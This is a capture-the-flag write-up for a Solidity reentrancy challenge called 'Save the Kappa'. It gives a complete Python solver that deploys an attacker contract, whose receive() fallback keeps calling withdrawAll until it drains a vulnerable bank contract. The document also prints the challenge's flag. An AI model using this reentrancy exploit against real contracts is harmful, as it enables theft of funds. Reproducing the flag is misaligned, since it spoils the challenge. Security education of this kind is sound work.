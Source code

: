 # Save the Kappa

I absolutely love kappa.  
Therefore, taking inspiration from “Kappa's River Drift”(This is a proverb meaning “Even Homer nods”.), I devised a challenge where helping a kappa results in receiving cucumbers—their favourite food—as a token of gratitude.  
This challenge was created for author's own study.  

Special thanks for karriho. He helped establish this as a legitimate challenge and contributed to creating `solver.py`.

## Result
Solved: 40  
Points: 344

1st: Satoki(BunkyoWesterns)  
2nd: Quriosity(sknb)  
3rd: CEO OF FFF(Lil L3ak)

## Challenge
Kappa always swim in chains. However, due to a mysterious force, one kappa was swept away by the river. Rescue the kappa that was swept away and receive a treasure as a reward!  
`nc chal1.fwectf.com 8020`

Difficulty: medium  
Attachment:  
・ [VulnerableBank.sol](VulnerableBank.sol)  
・ [Setup.sol](Setup.sol)

## writeup

Knowing the following will enable you to solve it:
* reentrancy, etc.

Below is the executable code:
```python solver.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
save_the_kappa / solver.py
- Reentrancy(リエントランシー)攻撃で VulnerableBank(withdrawAll脆弱) を空にする。
- EIP-1559 / legacy 手数料の両対応（web3.py v5/v6 どちらでも動く）。
"""

import os
import sys
from web3 import Web3
from eth_account import Account
from solcx import compile_standard, install_solc, set_solc_version

RPC_URL   = os.getenv("RPC_URL", "http://127.0.0.1:8545")
BANK_ADDR = os.getenv("BANK_ADDR")
PLAYER_PK = os.getenv("PLAYER_PRIV")
STAKE_ETH = float(os.getenv("STAKE_ETH", "0.2"))  # 攻撃の初期デポジット(ETH)

if not BANK_ADDR or not PLAYER_PK:
    print("[!] BANK_ADDR / PLAYER_PRIV を環境変数で指定してください。")
    sys.exit(1)
if not PLAYER_PK.startswith("0x"):
    PLAYER_PK = "0x" + PLAYER_PK

BANK_ADDR = Web3.to_checksum_address(BANK_ADDR)

ATTACKER_SOURCE = r"""
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBank {
    function deposit() external payable;
    function withdrawAll() external;
}

contract ReentrancyKappa {
    IBank public bank;
    address payable public owner;
    uint256 public stake;

    constructor(address _bank) {
        bank = IBank(_bank);
        owner = payable(msg.sender);
    }

    function pwn() external payable {
        require(msg.sender == owner, "only owner");
        require(msg.value > 0, "no stake");
        stake = msg.value;
        bank.deposit{value: msg.value}();
        bank.withdrawAll();
    }

    receive() external payable {
        if (address(bank).balance > 0) {
            bank.withdrawAll();
        }
    }

    function drain() external {
        require(msg.sender == owner, "only owner");
        (bool ok, ) = owner.call{value: address(this).balance}("");
        require(ok, "drain failed");
    }
}
"""

def dual_raw_tx(signed):
    """web3.py v5(rawTransaction) / v6(raw_transaction) 両対応"""
    return getattr(signed, "rawTransaction", None) or getattr(signed, "raw_transaction", None)

def fill_fees(w3: Web3, tx: dict) -> dict:
    """
    チェーンがEIP-1559対応なら maxFeePerGas / maxPriorityFeePerGas を入れる。
    非対応なら gasPrice を入れる。
    既にどちらかが入っている場合は触らない。
    """
    # すでにfee指定があるなら何もしない
    if any(k in tx for k in ("maxFeePerGas", "maxPriorityFeePerGas", "gasPrice")):
        return tx

    latest = w3.eth.get_block("latest")
    base_fee = latest.get("baseFeePerGas")
    if base_fee is not None:
        # EIP-1559
        try:
            max_priority = w3.eth.max_priority_fee  # web3 v6: property
        except Exception:
            # フォールバック: 2 gwei
            max_priority = w3.to_wei(2, "gwei")
        max_fee = base_fee * 2 + max_priority
        tx["maxPriorityFeePerGas"] = int(max_priority)
        tx["maxFeePerGas"] = int(max_fee)
    else:
        # legacy
        tx["gasPrice"] = int(w3.eth.gas_price)
    return tx

def send_raw(w3: Web3, acct, tx: dict):
    """
    ローカル署名送信（EIP-1559/legacy自動対応）
    - nonce/chainId/gas を適切に埋める
    """
    tx = dict(tx)  # copy
    tx.setdefault("from", acct.address)
    tx.setdefault("chainId", w3.eth.chain_id)
    tx.setdefault("nonce", w3.eth.get_transaction_count(acct.address))
    tx.setdefault("gas", 1_500_000)
    tx = fill_fees(w3, tx)

    signed = acct.sign_transaction(tx)
    raw = dual_raw_tx(signed)
    txh = w3.eth.send_raw_transaction(raw)
    rcpt = w3.eth.wait_for_transaction_receipt(txh)
    if rcpt.get("status", 0) != 1:
        raise RuntimeError(f"tx failed: {rcpt}")
    return rcpt

def main():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    assert w3.is_connected(), f"not connected to {RPC_URL}"
    acct = Account.from_key(PLAYER_PK)
    print(f"[+] player: {acct.address}")

    # コンパイル
    install_solc("0.8.26")
    set_solc_version("0.8.26")
    build = compile_standard({
        "language": "Solidity",
        "sources": {"Attacker.sol": {"content": ATTACKER_SOURCE}},
        "settings": {
            "optimizer": {"enabled": True, "runs": 200},
            "outputSelection": {"*": {"*": ["abi", "evm.bytecode.object"]}},
        },
    })
    abi = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["abi"]
    bytecode = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["evm"]["bytecode"]["object"]

    # 攻撃コントラクト deploy
    Attacker = w3.eth.contract(abi=abi, bytecode=bytecode)
    tx = Attacker.constructor(BANK_ADDR).build_transaction({"from": acct.address})
    rc = send_raw(w3, acct, tx)
    attacker_addr = Web3.to_checksum_address(rc["contractAddress"])
    print(f"[+] attacker: {attacker_addr}")
    attacker = w3.eth.contract(address=attacker_addr, abi=abi)

    # 攻撃前の残高
    before = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank before: {w3.from_wei(before, 'ether')} ETH")

    # 攻撃開始（pwn + deposit）
    stake_wei = w3.to_wei(STAKE_ETH, "ether")
    tx = attacker.functions.pwn().build_transaction({"from": acct.address, "value": stake_wei})
    rc = send_raw(w3, acct, tx)
    print("[+] reentrancy done.")

    # 回収
    tx = attacker.functions.drain().build_transaction({"from": acct.address})
    send_raw(w3, acct, tx)

    after = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank after : {w3.from_wei(after, 'ether')} ETH")
    if after == 0:
        print("[+] success: drained. Now press '3' in nc to get the flag.")
    else:
        print("[!] still not zero. Increase STAKE_ETH or gas if needed, and confirm Bank is withdrawAll-type.")

if __name__ == "__main__":
    main()
```

## flag

`fwectf{7h15_15_7h3_cucumber!}`
